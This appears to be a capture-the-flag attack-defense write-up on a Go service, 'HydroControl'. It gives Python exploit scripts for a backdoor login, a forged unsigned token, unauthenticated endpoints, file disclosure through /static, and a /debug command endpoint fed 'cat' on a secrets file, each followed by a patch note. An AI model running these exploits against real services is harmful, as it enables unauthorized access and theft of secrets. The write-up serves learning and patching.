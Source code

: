 
## 1. General description

```md

Authors: Stratulat Dragos, Clapa Adrian
Language: Go
Goal: Determine MFA code for HydroControl system

```

## 2. Vulns


## Find and compute flag function

```python
def find_compute_flag(response):
    flag = None
    try:
        m = re.search(r"otpauth://totp/hydrocontrol\?secret=([A-Z0-9]+)", response)
        secret = m.group(1)
        totp = pyotp.TOTP(secret, digits=9)
        flag = totp.now()
    except Exception as e:
        print(f"[ERROR] Failed to find flag in response: {e}")
    return flag
```

### I. Backdoor Login


![Weak](assets/Weak_Login.png)

- **How to exploit?**
```
Use crack station to crack backdoor hash, then use cracked password to login as staff01 and get MFA of HydroControl system.
```

![assets/cracked_hash.png](assets/cracked_hash.png)

```python

ip = 30
# Payload crafting phase
headers = {
		'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3',
}
form_data = {
	'organization': (None, 'government'),
	'username': (None, 'staff01'),
	'password': (None, 'testpassword')
}

session = requests.Session()
session.headers.update(headers)

	# Exploit phase
try:
	response = session.post(f'http://{ip}:8000{login_url}', files=form_data)
	session.cookies.set('bearer', response.headers.get('Set-Cookie').split(';')[0].split('=')[1])
	response = session.get(f'http://{ip}:8000{vault_url}').text
# Submit
	flag = find_compute_flag(response)
	print(f"Flag for teamp {ip} is")
except requests.exceptions.RequestException as e:
	print(f"[ERROR] Request failed: {e}")
except Exception as e:
	print(f"[ERROR] An unexpected error occurred: {e}")
session.close()
```

- **Output**
  
![assets/Pasted image 20250523124116.png](assets/Pasted%20image%2020250523124116.png)

- **How to patch?**
```md
Remove backdoor weak hash
```

![[assets/Pasted image 20250523124258.png]](assets/Pasted%20image%2020250523124258.png)

### II.  Token without any authentication mechanism

**models/token.go**

![[assets/Pasted image 20250523125726.png]](assets/Pasted%20image%2020250523125726.png)

**utils/utils.go**
![[assets/Pasted image 20250523125749.png]](assets/Pasted%20image%2020250523125749.png)

- **How to exploit?**
```
Craft your token for staff01 user and send a request with token value set for bearer header
```

```python

    session = requests.Session()
    session.headers.update(headers)

    session.cookies.set('bearer', 'eyJPcmdhbml6YXRpb24iOiJnb3Zlcm5tZW50IiwiVXNlcm5hbWUiOiJzdGFmZjAxIn0=')

    try:

        response = session.get(f'http://{ip}:8000{vault_url}').text
        flag = find_compute_flag(response)
        submit_flag_and_print(flag, ip, "2.Token without any authentication mechanism")
    except requests.exceptions.RequestException as e:
        print(f"[ERROR] Request failed: {e}")
    except Exception as e:
        print(f"[ERROR] An unexpected error occurred: {e}")
    session.close()
```

- **Output**
  
![[assets/Pasted image 20250523130232.png]](assets/Pasted%20image%2020250523130232.png)
- **How to patch?**

```
Add extra field in token and modify validateBearer function
```

**models/Token.go**

![[assets/Pasted image 20250523130708.png]](assets/Pasted%20image%2020250523130708.png)
**utils/utils.go**

![[assets/Pasted image 20250523130746.png]](assets/Pasted%20image%2020250523130746.png)


### III. Insecure endpoints - Edit account page has no authentication mechanism

![[assets/edit_page.png]](assets/edit_page.png)

- **How to exploit?**
```
Make a get request on /account/government/staff01/7/, get the secret and compute the flag
```

```python
    try:

        ip = "10.1.30.3"
        headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3',
        }
        response = requests.get(f'http://{ip}:8000{account_url}', headers=headers).text
        flag = find_compute_flag(response)
        print(f"Flag for team {ip} is {flag}")
    except requests.exceptions.RequestException as e:
        print(f"[ERROR] Request failed: {e}")
    except Exception as e:
        print(f"[ERROR] An unexpected error occurred: {e}")
```

- **Output**
  
![[assets/Pasted image 20250523131249.png]](assets/Pasted%20image%2020250523131249.png)

- **How to patch?**
```
Use previous patched function. Call utils.ValidateBearer at the beginning of edit account function.
```

![[assets/Pasted image 20250523132001.png]](assets/Pasted%20image%2020250523132001.png)

### IV. LFI via /static endpoint


![[assets/Pasted image 20250523132056.png]](assets/Pasted%20image%2020250523132056.png)

- **How to exploit?**

```
Make a get request on /account/government/staff01/7/, grab the secret and compute the flag
```


```python
try:

    ip = "10.1.30.3"
    headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3',

    }
    static_url = "/static/data/government/staff01.json"
    response = requests.get(f'http://{ip}:8000{static_url}', headers=headers).text
    flag = find_compute_flag(response)
    print(f"Flag for team {ip} is: {flag}")
except requests.exceptions.RequestException as e:
    print(f"[ERROR] Request failed: {e}")
except Exception as e:
    print(f"[ERROR] An unexpected error occurred: {e}")
```

- **Output**
  
![[assets/Pasted image 20250523132530.png]](assets/Pasted%20image%2020250523132530.png)


- **How to patch?**
```
Sanitize filename parameter 
```

![[assets/Pasted image 20250523132722.png]](assets/Pasted%20image%2020250523132722.png)

## V. /debug endpoint

```
Unnecessary debug endpoint.
```

![[assets/Pasted image 20250523133225.png]](assets/Pasted%20image%2020250523133225.png)

- **How to exploit?**
```
Send a command that allow you to read the secret
```

```python
payload = {
    "command": "cat data/government/staff01.json"
}

try:
    ip = "10.1.30.3"
    headers = {
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3',
}
    debug_url = "/debug"
    response = requests.get(f'http://{ip}:8000{debug_url}', json=payload, headers=headers).text
    flag = find_compute_flag(response)
    print(f"Flag for {ip} is {flag}")
except requests.exceptions.RequestException as e:
    print(f"[ERROR] Request failed: {e}")
except Exception as e:
    print(f"[ERROR] An unexpected error occurred: {e}")
```

- **Output**
  
![[assets/Pasted image 20250523133523.png]](assets/Pasted%20image%2020250523133523.png)

- **How to patch?**
```
Comment function or eliminate it from routes.go file
```

**routes/routes.go**
![[assets/Pasted image 20250523133750.png]](assets/Pasted%20image%2020250523133750.png)



